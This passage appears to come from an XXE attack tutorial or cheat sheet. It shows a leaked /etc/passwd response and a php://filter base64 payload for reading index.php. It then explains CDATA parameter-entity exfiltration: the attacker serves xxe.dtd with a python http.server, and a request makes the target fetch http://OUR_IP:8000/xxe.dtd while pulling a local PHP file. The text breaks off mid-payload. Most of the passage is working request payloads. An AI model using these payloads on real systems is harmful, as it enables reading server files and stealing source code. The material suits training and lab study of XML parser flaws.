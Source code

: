 ``` HTTP

Check your email root:x:0:0:root:/root:/bin/bash
xxe:x:1000:1000:xxe:/home/xxe:/bin/bash
 for further instructions.
[SNIP]....
```
**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
### Read file contains some of XML's special characters
#### Read PHP files using PHP wrapper
Encode PHP source files, such that they would not break the XML format when referenced.
- **Request**
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM 
"php://filter/convert.base64-encode/resource=index.php">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
* **Response**
``` HTTP
HTTP/1.1 200 OK

Check your email PCFET0NUWVBFIGh0bWw+DQo8aHRtbCBsYW5nPSJlbiI+DQoNCjxoZWFkPg0KCTx0aXRsZT5FbnRpdHkg
....
for further instructions.
[SNIP]....
```
#### Advanced Exfiltration with CDATA
To output data that does not conform to the XML format:
- Wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). and utilize XML Parameter Entities. 
- `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined.

- Attacker host
Create `xxe.dtd` with the content:
``` dtd
<!ENTITY joined "%begin;%file;%end;">
```
Start a python server:
``` bash
python3 -m http.server 8000
```
* Request to the target
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
```